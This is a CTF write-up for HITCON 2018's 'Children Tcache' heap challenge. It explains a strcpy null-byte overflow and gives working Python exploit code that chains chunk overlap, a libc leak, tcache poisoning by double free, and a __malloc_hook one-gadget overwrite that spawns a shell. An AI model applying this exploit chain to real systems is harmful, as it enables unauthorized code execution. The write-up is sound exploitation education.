



# HITCON CTF Quals 2018: Children Tcache (pwn, 246 pts)
###### By @Vtec234

In this pwn, we get a binary, `children_tcache` and the remote libc. The description reads:

> Try more tcache :)

This is related to another challenge, __Baby Tcache__, which is almost the same binary, but provides no easy way to leak addresses, so I decided to start with this one.

## Where is the bug?

Analysing the binary, we see that it is a typical heap challenge. We can `malloc` chunks of any size up to `0x2000`, `free` them and `show` their contents using `puts`. Chunk contents can only be written right after allocation, which makes things a little more difficult. All hardening is enabled - `PIE`, `NX`, full `RELRO`.

In the program itself, pointers in the global allocations array are properly zeroed, so we don't have UAF. What's more, the authors, expressing their appreciation for Russian, decided to clear the memory (using `memset`) after every deallocation using `0xda` bytes instead of plain zeroes.

The default installation of libc 2.27 from Ubuntu 18.04 is used. For us, this means that [tcache](http://tukan.farm/2017/07/08/tcache/) is present and a lot of [security checks](https://heap-exploitation.dhavalkapil.com/diving_into_glibc_heap/security_checks.html) are enabled. For debugging, I quickly spun up a VM with the right environment.

Let's look a bit closer at `new_heap` to find our bug:

```c
void __cdecl new_heap() {
  signed int i; // [rsp+Ch] [rbp-2034h]
  char *heap_buf; // [rsp+10h] [rbp-2030h]
  unsigned __int64 size; // [rsp+18h] [rbp-2028h]
  char stack_buf[8208]; // [rsp+20h] [rbp-2020h]
  unsigned __int64 _canary; // [rsp+2038h] [rbp-8h]

  _canary = __readfsqword(0x28u);
  memset(stack_buf, 0, 8208uLL);
  for ( i = 0; ; ++i ) {
    if ( i > 9 ) {
      puts(":(");
      return;
    }
    if ( !bss_allocs[i] )
      break;
  }
  printf("Size:");
  size = get_ll();
  if ( size > 8192 )
    exit(-2);
  heap_buf = (char *)malloc(size);
  if ( !heap_buf )
    exit(-1);
  printf("Data:");
  read_into(stack_buf, size);
  strcpy(heap_buf, stack_buf);
  bss_sizes[i] = size;
}
```

The function `read_into` reads up to `size` bytes of our input. The stack buffer is zeroed, so we don't have an arbitrary overflow, _but_ because `strcpy` always appends a null byte at the end, we can zero the last byte of the next chunk's `size` field and unset the `PREV_INUSE` bit. We also control the previous qword, so we can set `prev_size`. See [here](https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/) for a visual guide to the heap layout.

## Chunk overlap

To exploit the null overflow, we create this heap layout:



using the following code:

```python
SIZE_A = 0xf8 # tcache-able, not fastbinnable
SIZE_B = 0x18 # tcache-able

new(SIZE_A, 'A1')
new(SIZE_B, 'B')
new(SIZE_A, 'A2')

# fill tcache for SIZE_A to be able to free it into smallbin
new_range(SIZE_A, 7, 'A_tcache_fill')
del_range(range(3, 10))

delete(0) # smallbin free
delete(1) # tcache

# unset PREV_INUSE in A2 and move backwards over region to clear
# the 0xdadada
for i in range(0, 6):
    new(SIZE_B - i, 'B'*(SIZE_B - i))
    delete(0) # using tcache all along

# set prev_size to reach A1
new(SIZE_B - 6, 'B'*(SIZE_B - 8) + p16(SIZE_A+8 + SIZE_B+8))
```

Some things to note:
- The maximum size of the free chunk list in any tcache bin is 7. I fill the tcache for `SIZE_A` to put valid `fd` and `bk` pointers into `A1`. I thought this was necessary for backwards consolidation to work, but it seems it is not.
- Because of the above, there are a bunch of tcached chunks on the heap after `A2` (not shown). This is good, because we don't want it to merge into `top`.
- To deal with the `0xda` bytes (which would make `A2->prev_size` incorrect), we can recreate `B` several times, decreasing the size by one byte each time. This will zero the region. `A2->PREV_INUSE` not being set is not a problem, because `B` goes into tcache immediately and doesn't check `A2`. The sizes of `B` are chosen so that they all fall within the same bin due to alignment.
- The user size of `A2` is `0xf8`, resulting in a chunk size of `0x100`, which has a null byte at the end. Thanks to this, the null overflow doesn't change the chunk size of `A2`.

Having forged a layout where `A2->prev_size` goes all the way back to `A1`, we can free `A2`, triggering backwards consolidation:

```python
delete(2) # consolidate backwards into a chunk of size..
AB_SZ = 2*SIZE_A + SIZE_B + 16
```

and have the new, free chunk in a smallbin overlap `B`:



## Remainder chunk

Here comes the cool part. We don't know any addresses (`PIE`, remember), so we need a way to print one.  The large chunk is free, so we can retrieve it.  Since `B` is still allocated and available in slot `0`, we can `show` its contents.

My first idea was to overflow enough bytes from the large chunk to reach `B->next` with `B` interpreted as a tcache entry. Freeing `B` would make `B->next` point to the heap - and then print the large chunk. Unfortunately, this overwrites the size of `B` and is generally unwieldy.

A much better idea is to split the large chunk in two at a precisely calculated boundary by allocating part of it. Because it's in a smallbin, the split will put `fd` and `bk` pointers into the remaining part, and since `libc` prefers reusing the latest _remainder chunk_ (due to data locality), it will be linked directly to `main_arena`, which we can leak with `show(B)`

Here's another illustration for your viewing pleasure:



and the code to create the corresponding heap state:

```python
# want to allocate a chunk of SIZE_A from large chunk AB_SZ here..
# but tcache will take precedence, so need to empty tcache
new_range(SIZE_A, 7, 'A_tcache_slurp')

# split large chunk into two
new(SIZE_A, 'A1')

# now AB has been split into 0x100 and 0x120 - the 0x120 is readable by us through index 0, originally known as B
libc_base = u64(show(0)[:6].ljust(8, '\x00')) - 0x3ebca0
print "libc_base: 0x{:x}".format(libc_base)

# ! UNIMPORTANT BELOW, just rearranging the allocations
# to use lower slot indices - I was really confused :|
del_range(range(1,7))
# use tcache space to set slot 1 to be our initial chunk
delete(8)
new(SIZE_A, 'HUE')
delete(7) # send final chunk to SIZE_A tcache
```

## Tcache poisoning

After leaking the libc base, we can perform a tcache poisoning attack. Put simply, we trick `malloc` into returning a pointer to an arbitrary address, in this case `__malloc_hook`. By overwriting it with a shell gadget, we make the next `malloc` invocation spawn a shell.

Obtaining arbitrary pointers from smallbins is generally quite difficult and requires forging fake chunks. Luckily for us, `glibc` developers like their code fast, not secure, resulting in a complete lack of checks in the tcache implementation.

Each tcache bin is a singly linked list (of length 7 at most), with `tcache_entry::next` residing where `free_chunk::fd` would be in a free smallbin chunk. By overwriting this address and leveraging a double free (using the split remainder chunk, which starts at the same point as `B`), we can put arbitrary data in the list and have it returned later.

```python
MALLOC_HOOK = 0x003ebc30

# obtain B from malloc again, into slot 2
new(SIZE_B, 'doubler')

delete(0) # free B
delete(2) # free it again. B->next now loops to itself

# allocate B and store the address of __malloc_hook in B->next
new(SIZE_B, p64(libc_base + MALLOC_HOOK))
new(SIZE_B, 'whatever') # now tcache->bins[idx_b] is __malloc_hook :D
```

## Shell

Finally, the poisoned tcache will give us `&__malloc_hook` as a new chunk, which we can overwrite with a gadget.

```python
# ------------------ ONE GADGET -------------------
OG = 0x4f322 # execve("/bin/sh", rsp+0x40, environ)
# constraints:
#   [rsp+0x40] == NULL
new(SIZE_B, p64(libc_base + OG))

t.sendlineafter('choice: ', '1')
t.sendlineafter('Size:', '1337') # trigger malloc

t.sendline('cat /home/children_tcache/flag') # <3
t.interactive()
````

> hitcon{l4st_rem41nd3r_1s_v3ry_us3ful}

## Baby?

I mentioned in the beginning that __Baby Tcache__ is very similar. Indeed, the only differences are that `show` doesn't exist and that for reading user data into new chunks `read` is used instead of `strcpy` (also, `buf[size]` is always zeroed, but it doesn't matter too much). The former means that to do anything useful we probably have to do a partial overwrite of an existing libc pointer. The latter means that we can read in null bytes and perform partial overwrites! So it seems the plan could work. The existing exploit largely works with some small changes - exercise for you :) - until the leak part. My idea was to similarly use a pointer to `main_arena` and partially overwrite it into a `__malloc_hook` address. Unfortunately, when allocating `B` in my PoC, `malloc` clears the first qword, zeroing the precious pointer. I tried to work around this, but ran out of time - so I'm hoping for writeups from teams who did solve it!
